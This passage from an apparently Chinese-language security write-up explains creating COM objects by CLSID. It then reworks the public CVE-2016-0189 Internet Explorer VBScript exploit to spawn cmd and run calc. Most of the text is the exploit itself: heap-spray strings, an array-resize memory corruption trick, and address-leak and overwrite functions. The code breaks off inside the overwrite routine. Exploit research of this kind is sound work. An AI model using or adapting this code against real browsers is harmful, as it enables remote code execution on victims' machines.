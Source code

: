 &emsp;&emsp;这种方法的好处是当想要创建的COM对象没有ProgID时，便可以通过CLSID进行创建。接下来对[CVE-2016-0189](https://github.com/theori-io/cve-2016-0189/blob/master/exploit/vbscript_godmode.html)的EXP进行改造，使之启动cmd执行calc：

```html
<html>
<head>
<meta http-equiv="x-ua-compatible" content="IE=10">
</head>
<body>
    <script type="text/vbscript">
        Dim aw
        Dim plunge(32)
        Dim y(32)
        prefix = "%u4141%u4141"
        d = prefix & "%u0016%u4141%u4141%u4141%u4242%u4242"
        b = String(64000, "D")
        c = d & b
        x = UnEscape(c)

        Class ArrayWrapper
            Dim A()
            Private Sub Class_Initialize
                ' 2x2000 elements x 16 bytes / element = 64000 bytes
                ReDim Preserve A(1, 2000)
            End Sub
            Public Sub Resize()
                ReDim Preserve A(1, 1)
            End Sub
        End Class
        Class Dummy
        End Class
        Function getAddr (arg1, s)
            aw = Null
            Set aw = New ArrayWrapper
            For i = 0 To 32
                Set plunge(i) = s
            Next
            Set aw.A(arg1, 2) = s
            Dim addr
            Dim i
            For i = 0 To 31
                If Asc(Mid(y(i), 3, 1)) = VarType(s) Then
                    addr = strToInt(Mid(y(i), 3 + 4, 2))
                End If
                y(i) = Null
            Next
            If addr = Null Then
                document.location.href = document.location.href
                Return
            End If
            getAddr = addr
        End Function
        Function leakMem (arg1, addr)
            d = prefix & "%u0008%u4141%u4141%u4141"
            c = d & intToStr(addr) & b
            x = UnEscape(c)
            aw = Null
            Set aw = New ArrayWrapper
            Dim o
            o = aw.A(arg1, 2)
            leakMem = o
        End Function
        Sub overwrite (arg1, addr)
            d = prefix & "%u400C%u0000%u0000%u0000"
```